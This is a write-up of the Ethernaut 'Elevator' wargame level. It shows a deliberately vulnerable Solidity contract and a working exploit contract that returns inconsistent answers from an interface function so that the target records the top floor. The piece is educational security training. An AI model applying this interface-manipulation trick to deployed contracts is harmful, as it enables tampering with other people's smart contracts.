 # Ethernaut 11: Elevator - understanding Interfaces

The learning is calling an interface exposes you to re-entrance (later exercise) and gives you no control what code is executed, it might be malicous code or something completly diffrent as you expect.

## The Task Intro

You can use the `view` function modifier on an interface in order to prevent state modifications. The `pure` modifier also prevents functions from modifying the state. Make sure you read [Solidity&#39;s documentation](http://solidity.readthedocs.io/en/develop/contracts.html#view-functions) and learn its caveats.

Funnily the question is not asked in the task intro, but it is obvious that we can only can call the goTo function and that isLastFloor is an interface function. The problem with this function is it does not let you into the last floor, it must be false to get inside the if block, but that causes the top variable always to be false, meaning the top floor is never reached.

The question I give myself is: How to get in the last floor?

## The Task Code

```apache
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

## The Solution

The main idea here not to call the elevator contract directly but by another smart contract. This contract will implement the isLastFloor function. The goTo function casts the msg.sender to the Building Interface, which means our smart contracts implementation is being called.

In my implementation there is a counter that the first time the function is called is false and the top floor is set. All following calls true is only returned if the top floor is reached. With this implementation I fixed the flawed original contract. This would be a white hat exploit.

```apache
contract Exploit is Building {
    Elevator el;
    uint counter;
    uint topFloor;

    constructor(Elevator _el) {
        el = _el;
    }

    function attack(uint _floor) external {
        el.goTo(_floor);
    }

    function isLastFloor(uint _floor) external returns (bool) {
        if (counter == 0) {
            counter++;
            topFloor = _floor;
            return false;
        } else {
            if (_floor == topFloor) {
                return true;
            } else {
                return false;
            }
        }
    }
}
```
